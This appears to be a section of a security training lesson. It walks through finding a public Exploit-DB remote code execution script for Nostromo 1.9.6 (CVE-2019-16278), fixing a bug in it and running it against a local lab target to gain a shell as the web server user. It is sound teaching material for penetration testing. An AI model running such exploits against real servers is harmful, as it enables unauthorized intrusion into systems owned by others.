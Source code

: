 Recall that since this is about known vulnerabilities, most of the work has already been done for us. Our main job is to find out the information of the software and research it until we can find an exploit. Let's go through that with an example web application.

![Nostromo version](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/79310c575c9809b1ac8e8546badb2d34.png)  

_Nostromo 1.9.6_  

What do you know? This server has the default page for the Nostromo web server. Now that we have a version number and a software name, we can use [Exploit-DB](https://www.exploit-db.com/) to try and find an exploit for this particular version.

![Exploit-DB search](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/146fb6d0c48ef46d94f124921da171cc.png)  

Lucky us, the top result happens to be an exploit script. Let's download it and try to get code execution. Running this script on its own teaches us a very important lesson.
```php
user@linux$ python 47837.py Traceback (most recent call last): File "47837.py", line 10, in <module> cve2019_16278.py NameError: name 'cve2019_16278' is not defined
```

Exploits you download from the Internet may not work the first time. It helps to understand the programming language the script is in so that, if needed, you can fix any bugs or make any modifications, as quite a few scripts on Exploit-DB expect you to make modifications.

Fortunately, the error was caused by a line that should have been commented out, so it's an easy fix.

```python
# Exploit Title: nostromo 1.9.6 - Remote Code Execution
# Date: 2019-12-31
# Exploit Author: Kr0ff
# Vendor Homepage:
# Software Link: http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz
# Version: 1.9.6
# Tested on: Debian
# CVE : CVE-2019-16278

cve2019_16278.py  # This line needs to be commented.

#!/usr/bin/env python
```

Fixing that, let's try and run the program again.
```php
user@linux$ python2 47837.py 127.0.0.1 80 
id 
_____-2019-16278 _____ _______ ______ _____\ \ _____\ \_\ | | | / / | | / /| || / / /|/ / /___/| / / /____/||\ \ \ |/| |__ |___|/ | | |____|/ \ \ \ | | | \ | | _____ \| \| | | __/ __ |\ \|\ \ |\ /| |\ \ / \ | \_____\| | | \_______/ | | \____\/ | | | /____/| \ | | / | | |____/| \|_____| || \|_____|/ \|____| | | |____|/ |___|/ 

HTTP/1.1 200 OK 
Date: Fri, 03 Feb 2023 04:58:34 GMT 
Server: nostromo 1.9.6 
Connection: close uid=1001(_nostromo) gid=1001(_nostromo) groups=1001(_nostromo)
```